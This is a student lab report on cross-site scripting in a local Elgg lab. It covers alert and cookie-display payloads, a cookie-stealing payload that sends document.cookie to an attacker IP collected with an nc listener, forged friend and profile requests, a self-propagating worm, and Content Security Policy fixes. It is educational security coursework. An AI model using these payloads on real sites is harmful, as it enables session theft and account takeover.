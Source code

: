 # Cross-Site-Scripting-XSS



# Lab Environment Setup

The image above shows the lab environment setup by adding the DNS configurations and the websites

relating to the ip addresses in the /etc/hosts file using the command “sudo nano /etc/hosts”. Along with

this the commands “docker-compose build” and “docker-compose up” were used to start the Elgg

container. With all of this setup, all of the websites were running properly and could be visited.

# Task 1

**Ans**: For task 1, we were tasked with embedding a JavaScript program into a Elgg profile so

when another user views the profile the script will be executed. We were provided with the code:

<script<alert(‘XSS’);</script> and this was used to create the alert. This segment of code was

placed in the brief description section of Alice’s profile. The first image shows the code being

placed in the “brief description” section and the second image shows the result of when the code

is executed. The second image shows an alert box popping up when Alice’s profile is being

visited.


# Task 2

The image above shows the script that was added to the “about me” section of Alice’s profile

The image above shows the cookies of Alice’s profile when she is viewing her own account

The image above shows the cookies of Samy’s profile when viewing Alice’s profile

**Ans:** In task 2, the objective was to embed a JavaScript program in Alice’s profile to display the

cookies of the person visiting her profile. The cookies will be displayed in an alert pop up

window and it was achieved by adding the following code:

<script>alert(document.cookie);</script> into the “About me” section of Alice’s profile. The

images above show what the code displays when Alice’s account is viewed from another

account. In the instance above, Alice’s account was viewed from Samy’s profile which revealed

Samy’s cookies.


# Task 3

The image above shows the code that was added to Alice’s profile in the “About Me” section

The image above shows how Alice’s profile looks when the code is embedded in her profile

The image above shows the results of running “nc -lknv 5555” in the terminal and this displayed

Samy’s cookies when he visited Alice’s profile


**Ans:** In task 3 the objective was to steal cookies from the victim’s machine, the victim being the

user visiting Alice’s account. In previous tasks, the malicious JavaScript code the cookies would

be printed out and only the user can see the cookies, not the attacker. In this task, the cookies

were sent to the attacker and in order to achieve this, the code was inserted into a <img> tag. The

<img> tag was used since when a browser tries to load the image, a HTTP GET request will be

sent to the attacker’s machine on the port 5555. The code: <script>document.write(‘<img src =

[http://10.9.0.1:5555?c=](http://10.9.0.1:5555/?c=)[’](http://10.9.0.1:5555/?c=)[ ](http://10.9.0.1:5555/?c=)[+](http://10.9.0.1:5555/?c=)[ ](http://10.9.0.1:5555/?c=)escape(document.cookie) + ‘ >’); was put in the “About Me” section

of Alice’s profile. This code sent the cookies over the port 5555 to the attacker’s machine which

has the ip address of 10.9.0.1. Once this was done, the netcat program had to be used in terminal

so that the 5555 port can be listened to for incoming connections. The result of running this

command “nc -lknv 5555” printed the Elgg cookies of the user visiting Alice’s website which in

the image above is Samy.


# Task 4

The image above shows the JavaScript code that was added to Samy’s profile

The image above shows that Alice is now friends with Samy just by visiting his page


**Ans:** In this task the objective was to become a victim’s friend through the use of JavaScript

code. This was meant to mimic the Samy worm that occurred in 2005 but in this task, it was not

self-propagating yet. In this task the JavScript program would forge a HTTP request directly

from the victim’s browser without the intervention of the attacker. The first screenshot shows the

code that was added into the “About Me” section of Samy’s profile. This was done by enabling

Text Mode since the default Editor Mode adds extra HTML code to the text typed. In the code,

the url specified wa[s](http://www.seed-server.com/action/friends/add)[ ](http://www.seed-server.com/action/friends/add)<http://www.seed-server.com/action/friends/add>[ ](http://www.seed-server.com/action/friends/add)+ “?friend=59” + token + ts

and this forged a HTTP request. Samys user id (guid) had to be specified in the code in order for

the attack to work. The variables ts and token were added in order to correctly forge a request

since these are needed to be considered correct requests due to countermeasures. Once all of this

was done, when a user visited Samy’s profile, they would automatically be added as his friend

which is evident in the second picture where Alice visited Samy’s page.

**Question 1:** Explain the purpose of Lines CD and @, why are they are needed?

**Ans:** Lines CD and @ are needed because they serve the purpose of getting the values for \_\_elgg\_ts and

\_\_elgg\_token. These two parameters are needed because without them a HTTP request cannot be forged

since they are expected. These two parameters serve as a security measure to prevent CSRF attacks, as

explored in the pervious lab. These two values are uniquely generated and change for each user which

makes it difficult to forge requests and secures the elgg website. In essence, these two lines are needed in

order to make a correct HTTP request and are added to the end of the url so Samy can carry out his attack

successfully.

**Question 2:** If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you

cannot switch to the Text mode, can you still launch a successful attack?

**Ans:** If the Elgg application would only provide Editor Mode for the “About Me” field and did not let

user’s to switch to Text Mode, the attack cannot be launched successfully. This attack would not be able

to be launched successfully because as mentioned in the task, extra HTML code is added to what would

be typed. This extra added code can hinder our attack by adding unnecessary symbols and characters that

can prevent the code from executing properly. Due to this reason, Text Mode is needed to launch this

attack properly.


# Task 5

The image above shows the JavaScript code that was added in order to achieve the task

The image above shows that Alice’s “About Me” section was changed as a result of viewing Samys page

**Ans:** In this task the objective was to modify the victim’s profile when Samy’s page is visited. In order to

achieve this, JavaScript code was added that will be executed when the victim visits Samy’s profile. The

JavaScript code forges a HTTP POST request that modifies the victim’s user profile. The task provided us

with a skeleton code that I added to in order to complete this task. As seen in the first screen shot above,

the malicious code was added into the “About Me” section of Samy’s profile in Text Mode. The code

consisted of initial variables such as the username of the person visiting the page, the user id of the

victim, Samy’s user id, \_\_elgg\_ts, \_\_elgg\_token as well as a url that would be sent. The url was

<http://www.seed-server.com/action/profile/edit>[ ](http://www.seed-server.com/action/profile/edit)and added to this url was “token + ts + username + desc +

guid”. All of this information made a valid HTTP request that would modify the victim’s user profile. The

desc variable was set to “Samy is my hero” which can be seen in the second screenshot where that is

Alice’s profile description. All of this code is executed when a user visits Samy’s profile and allows the

victims profile to be edited.

**Question 3:** Why do we need Line CD? Remove this line, and repeat your attack. Report and explain

your observation?

**Ans:** Line CD in the JavaScript code checks if the guid of the user is not Samy’s guid and if it is not, it

executes more code. If this line of code was not included, then the request would be sent out even if Samy

viewed his own profile. When removing this line of code, Samy’s profile is edited and the message

“Samy is my hero” is displayed in the “About Me” section. This line of code serves as a precaution so

that the code does not edit his own profile but the profiles of others and this can only be determined by

getting their guid’s.


# Task 6

The image above shows the JavaScript code that was put in Samy’s account

The image above shows that Alice’s account was infected

The image above shows that Charlies account was infected

The image above shows that the code was put into Boby’s account after being infected with the worm

**Ans:** In task 6 the objective was to create the self-propagating worm so that when a user visits an infected

profile their profile is modified and then anyone who views infected profiles will become infected. This

attack can be carried out through a link approach or a DOM approach and for this task it was done using

the DOM approach. In order to complete the objective, an entire JavaScript program was embedded in the

Samy’s profile. This utilized the DOM API to retrieve a copy of itself from the web page, making the

worm work as intended. The JavaScript code used a URL encoding function that URL-encodes a string

that includes the header tag, JavaScript code and well as the tail tag. Information that was used in the

previous tasks such as user name, user guid, \_\_elgg\_ts, \_\_elgg\_token, description, content, Samy’s guid

and url was all needed to carry out this attack. The link used was [http://www.seed-](http://www.seed-server.com/action/profile/edit)

[server.com/action/profile/edit](http://www.seed-server.com/action/profile/edit)[ ](http://www.seed-server.com/action/profile/edit)and all of this information was used to create and send a request to modify

a user’s profile. What made this code self-propagating was that once the code ran, it was added to the

victim’s profile and would be transferred to another user when they got infected. A person that was

infected would have the words “Worm is spreading” in their profile indicating they have been infected.


# Task 7

**Question 1:** Describe and explain your observations when you visit these websites.

**Ans:** When visiting the three websites, each website displayed the status for various aspects of the CSP

experiments that were labeled areas 1 – 6. In the first website: [www.example32a.com](http://www.example32a.com/)[,](http://www.example32a.com/)[ ](http://www.example32a.com/)the status of each

area was “OK” which signaled that the JavaScript code for each area executed correctly. In contrast, when

visiting the second website, [www.example32b.com](http://www.example32b.com/)[ ](http://www.example32b.com/)the results were different from the first website. The

JavaScript code was not executed properly in this website since the status for areas 1,2,3 and 5 were

“Failed” while areas 4 and 6 had the status “OK”. This indicates that there are issues with the JavaScript

code and was not functioning properly. Lastly, in website thre[e,](http://www.example32c.com/)[ ](http://www.example32c.com/)[www.example32c.com](http://www.example32c.com/)[,](http://www.example32c.com/)[ ](http://www.example32c.com/)[t](http://www.example32c.com/)here were issues

with areas 2,3 and 5 since they had the “Failed” status while areas 1,4 and 6 had the “OK” status.


**Question 2:** Click the button in the web pages from all the three websites, describe and explain your

observations.

**Ans:** When visiting the first websit[e,](http://www.example32a.com/)[ ](http://www.example32a.com/)[www.example32a.com](http://www.example32a.com/)[,](http://www.example32a.com/)[ ](http://www.example32a.com/)and clicking the button at the bottom of

the page an alert pops up on the window with the text “JS Code executed!”. In contrast, when clicking

the button for the second and third websit[e,](http://www.example32b.com/)[ ](http://www.example32b.com/)[www.example32b.com](http://www.example32b.com/)[ ](http://www.example32b.com/)and [www.example32c.com](http://www.example32c.com/)[ ](http://www.example32c.com/)nothing

happened. No alert box showed up and there were no changes shown. A possible explanation as to why

the websites did not change when the buttons were clicked is because the JavaScript code was not

executing properly as is evident by the “Failed” status in multiple areas present on both websites. The

first website had the “OK” status on all areas meaning the JavaScript code executed properly so an alert

was shown. Since the code was not executing properly in the second and third websites, no changes

occurred when the buttons were clicked.

**Question 3:** Change the server configuration on example32b (modify the Apache configuration), so

Areas 5 and 6 display OK. Please include your modified configuration in the lab report.

**Ans:** Areas 5 and 6 now display the status “OK” after altering the Apache configuration. In the

configuration I added “ ‘nonce-111-111-111’ ‘nonce-222-222-222’ \\*.example60.com”. This addition

fixed areas 1,2,5 and 6 because after restarting the Apache service, these areas were now included in

the header. In the original Apache file, the two nonces were not included and the website,

[www.example60.com](http://www.example60.com/)[,](http://www.example60.com/)[ ](http://www.example60.com/)[w](http://www.example60.com/)as not included so it would not execute correctly.


**Question 4:** Change the server configuration on example32c (modify the PHP code), so Areas 1, 2, 4, 5,

and 6 all display OK. Please include your modified configuration in the lab report.

**Ans:** After editing the phpindex.php file by adding “ ’nonce-222-222-222’ \*.example60.com” areas 2 and

5 showed the “OK” status. This is because the nonce and website were now specified in the header

whereas previously it was not specified so the status was “Failed”. Areas 1,4 and 6 had the status “OK”

and were in the header so those did not need to be fixed.

**Question 5:** Please explain why CSP can help prevent Cross-Site Scripting attacks.

Ans: CSP stands for Content Security Policy and this is a computer security standard that was introduced

to prevent cross-site scripting attacks. CSP can be used to prevent cross-site scripting attacks because of

the features it provides and extra security. CSP restricts the resources (ex. Scripts and images) that a

page can load which prevents cross-site scripting attacks. In order to enable CSP, a response must be

included in a HTTP response header labeled “Content-Security-Policy” and this must have a value

containing the policy. A nonce (random value) can be specified by the CSP directive and the same value

must be used in the tag that loads a script in order to execute. If the values do not match, the script will

not be executed, which makes it difficult for an attacker to guess this value since each page has a

randomly generated nonce. Moreover, a hash can be specified for a trusted script and if the hash of a

script does not match the value of the hash provided in the directive, it will not execute. CSP is used to

prevent scripts from executing by adding an extra layer of security through the use of additional header

requirements. These requirements deter attackers since it is difficult forge valid requests.

